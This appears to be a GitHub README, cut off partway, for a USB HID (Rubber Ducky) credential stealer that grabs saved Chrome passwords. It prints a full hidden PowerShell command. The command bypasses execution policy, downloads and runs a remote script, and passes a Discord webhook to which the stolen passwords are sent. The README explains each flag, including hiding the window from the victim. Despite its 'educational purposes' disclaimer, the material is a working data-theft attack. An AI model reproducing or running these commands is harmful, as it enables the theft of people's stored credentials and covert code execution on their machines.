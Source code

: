 THIS SCRIPT IS ONLY INTENDED FOR EDUCATIONAL PURPOSES
(decrypt script made by ohyicong)

# Dependencies:
- Windows
- Python

# How it Works:

(This code is very unoptimized, but i havent bothered fixing it)

## The rubber ducky script
When the grabber.dd runs it opens a powershell terminal window and enters this string:

```
powershell -w h -NoP -NonI -Exec Bypass -c "cd $env:USERPROFILE\Documents ; iwr -Uri https://raw.githubusercontent.com/simen64/Pico-HID-Scripts/main/chrome-password-stealer/starter.ps1 -OutFile $Env:USERPROFILE\Documents\starter.ps1 ; powershell.exe -File .\starter.ps1 -webhookUrl "<Your discord webhook here>""
```

### Flags used:

The ```powershell -w h -NoP -NonI -Exec Bypass -c``` tells powershell to execute a set of commands with some flags:
- ```-w h``` tells powershell to run in a hidden window so the victim cant see logs
- ```-NoP``` makes sure that none of the users profiles are loaded, which could mess up execution
- ```-NonI``` Makes the user unable to interact with the script while its running
- ```-Exec Bypass``` Makes powershell bypass the execution policy which allows powershell to run scripts
- ```-c``` tells powershell what commands to execute, the commands are enclosed in quotes and seperated with semicolons
- Now the script proceecds to execute a sequence of commands

### Commands ran:

1. The first command ran is ```cd $env:USERPROFILE\Documents``` which takes us into the users Documents folder where we will be doing everything
   
2. Next we run ```iwr -Uri https://raw.githubusercontent.com/simen64/Pico-HID-Scripts/main/chrome-password-stealer/starter.ps1 -OutFile $Env:USERPROFILE\Documents\starter.ps1``` which invokes a web request to the github link where the starter.ps1 script is and downloading it, the script is placed in the Documents folder with the -OutFile argument
  
3. Now we run ```powershell.exe -File .\starter.ps1 -webhookUrl "<Your discord webhook here>"``` as our last command. This uses the powershell interpreter to execute the starter.ps1 script and then passes the variable -webhookUrl to the powershell script. This is used for the discord webhook in the script.

## The powershell script

The powershell script is used as sort of a base of operations, it downlaods the python password decryptor and sends the file over discord. Heres how it works:

### Extracting the passwords:

To extract the passwords saved in chrome we use a python script made by ohyicong, if you are interested in how it works you can read his [medium article](https://ohyicong.medium.com/how-to-hack-chrome-password-with-python-1bedc167be3d)

First we tell powershell where python is located on the system so we can use it to execute the script:
```
$filePath = "$env:LocalAppData\Programs\Python\Python311\python.exe"
```
